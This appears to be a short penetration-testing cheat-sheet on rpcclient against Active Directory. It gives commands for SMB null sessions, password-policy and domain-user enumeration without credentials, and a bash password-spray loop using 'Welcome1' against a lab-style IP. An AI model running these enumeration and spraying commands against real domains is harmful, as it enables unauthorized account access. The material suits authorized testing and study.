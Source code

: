 -- -
Can be used outside of an AD context, but will generally be used in an AD context.
#### Enumerate Password Policy w/o valid credentials
Uses SMB null session to achieve this.
```bash
# Establish a NULL SMB session
rpcclient -U "" -N <ip> 
rpcclient -U "" -N 172.16.5.5

# Confirm NULL session Access
rpcclient $> querydominfo

# query Password Policy
rpcclient $> getdompwinfo
```

^c2a0e3
#### Enumerating valid users w/o credentials
```bash
# Connect to a NULL session
rpcclient -U "" -N <ip>

# query domain users
rpcclient $> enumdomusers
```

^0efe93

#### Password Spray
```bash
for u in $(cat <userlist>.txt);do rpcclient 0U "$u%<passwd>" -c "getusername;quit" dc ip | grep Authority; done

for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

^c36a7d

### Auth enumeration of domain
```bash
# user enumeration
enumdomusers
```